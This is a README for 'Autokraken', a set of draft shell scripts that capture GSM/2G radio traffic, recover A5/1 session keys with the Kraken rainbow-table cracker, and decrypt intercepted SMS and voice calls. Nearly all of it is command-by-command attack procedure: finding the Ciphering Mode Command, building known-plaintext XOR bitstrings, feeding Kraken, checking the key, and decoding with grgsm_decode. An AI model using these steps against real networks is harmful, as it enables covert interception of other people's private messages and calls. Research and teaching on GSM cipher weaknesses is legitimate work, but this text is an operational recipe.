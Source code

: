 # Autokraken

_Warning: those are currently dirty drafts.  It works for us but would need to be heavily reviewed to work any other platform._

A set of scripts to automate the cracking of captured GSM/G2 network traffic with Kraken, and to extract SMS and voice calls out of it.  This is not frequency hopping capable.

## Requirements

Few command line utilities

        which sed
        which awk
        which grep
        which cut
        which wc

Few packages for stage 1

        apt install python3 tcpdump tshark gr-gsm -y

Optionally `gsmframedecoder` when dealing with SI5,6 instead of idle frames, but then you would also need obtain HEX version of the bursts, be it with the old Airprobe or Wireshark

	cd /root/KRAKEN/
	#git clone https://github.com/flyopenair/gsmframecoder.git
	wget http://www.ks.uni-freiburg.de/download/misc/gsmframecoder.tar.gz
	tar xzf gsmframecoder.tar.gz
	cd gsmframecoder/
	g++ BitVector.cpp GSMFrameCoder2.cpp -o gsmframecoder

And of course Kraken with ready to serve rainbow table indexes

## Introduction

You can separate stages 0,1 and 2,3 for resp. capturing and cracking.  Simply send the bitstring file from the former to the latter and proceed.

## Stage 0 - capture and get the cfile(s) ready

	arfcn=

        cd /root/KRAKEN/autokraken/stage0/
	./capture.bash $arfcn

## Stage 1 - define known plain-text frame

_requires GR-GSM and a cfile_

Extract broadcast control channel

        cd /root/KRAKEN/autokraken/stage1/
	./json0C $arfcn

and find out about the SDCCH timeslot and subchannel to track

	#./parse.py 0C $cfile.0C.json
	./grabIA $arfcn

	slot=
	sub=

Extract dedicated control channel and look for idling frames around the Ciphering Mode Command.  It is necessary here to specify the subchannel so we won't get any irrelevant frames and bitstrings to crack later-on.

	echo $arfcn $slot $sub
	./jsonXS $arfcn $slot $sub

If you don't find the CMC it might be because there's hopping going on.  Look closer at the IA and hopping friends in SI1.

Check that's A5/1 we've got here and not A5/3.

Now seek for idling frames around the Ciphering Mode Command

	#./parse.py XS $cfile.${slot}S.json
	./grabCMC $arfcn $slot $sub

	plainframe=

Eventually send the bitstring file to the Kraken server.

        scp ~/capture/$arfcn.cfile.${slot}S$sub kraken:~/capture/

## Stage 1.5 - SI5 Timing Advance

_skip this step for idling frame_

Have a look at Timing Advance and in case it is not `x00` already, copy/paste the HEX from wireshark starting at SACCH L1 Header (23 bytes).  Look byte offset `1`.  This will become `x00` and converted to bitstrings thanks to gsmframedecoder.

	/root/KRAKEN/gsmframecoder/gsmframecoder HEX | grep ^[[:digit:]] > /root/capture/si5

## Stage 2 - define the cipher-text frames

_requires Kraken and the bitstring file_

Make sure the variables are still defined

	screen -S KRAKEN
	cd /root/KRAKEN/autokraken/stage2/
	string=/root/capture/$arfcn.cfile.${slot}S$sub
	echo $plainframe

Tune your path against Kraken and Utilities

        vi feedcrack.conf

	kraken=/root/KRAKEN/kraken

XOR plain bitstrings with cipher bitstrings for idling frames

	echo $cfile $slot $sub $plainframe
	./getemptyframeplain $cfile.${slot}S$sub $plainframe
	./getemptyframecipher $cfile.${slot}S$sub $plainframe
	./feedemptyframe $string $plainframe
	ls -lhF /root/capture/$arfcn.cfile.1S.*.emptyframe*

--or-- for SI5

	ls -lhF ~/capture/si5
        echo $string $plainframe
	./guesssi5 $string $plainframe
	./feedcrack $string $plainframe

Feed those into Kraken interactivelty

	cd /root/KRAKEN/kraken/Kraken/
	ls -lhF /dev/sdb2
	ls -lhF ../indexes/

Idling frame

	head /root/capture/$arfcn.cfile.${slot}S.$plainframe.emptyframe234
        ./kraken ../indexes < /root/capture/$arfcn.cfile.${slot}S.$plainframe.emptyframe234

SI5

	head /root/capture/crackxors
        ./kraken ../indexes < /root/capture/crackxors

## Stage 2 automated

	./crack $cfile.${slot}S $plainframe

## Stage 3 - verify the key

Tune the hardcoded path against Utilities

	cd /root/KRAKEN/autokraken/stage3/
	vi feedkc

	utilspath=/root/KRAKEN/kraken/Utilities

reach back to the previous frame number and xored bitstring to feed the key check

	./feedkc <xored bitstring> /root/capture/$arfcn.cfile.1S.$plainframe.emptyframe1234

COPY/PASTE THE KEY AND @ E.G.

	/root/KRAKEN/kraken/Utilities/find_kc <FOUND KEY> <BITOPS> <BURST FRAME NUMBER> <PREV BURST FRAME NUMBER> <PREV BURST XORED BITSTRING>

## Conclusion

You can now sniff into the ciphered text

	grgsm_decode --cfile=$cfile --arfcn=$arfcn --mode=SDCCH8 --timeslot=$slot --subslot=$sub \
		--a5=1 --kc=KEY-HERE

## Resources

GSM Cracking: SMS w/ Kraken – Software Defined Radio Series #16
https://www.crazydanishhacker.com/gsm-cracking-sms-kraken-software-defined-radio-series-16/


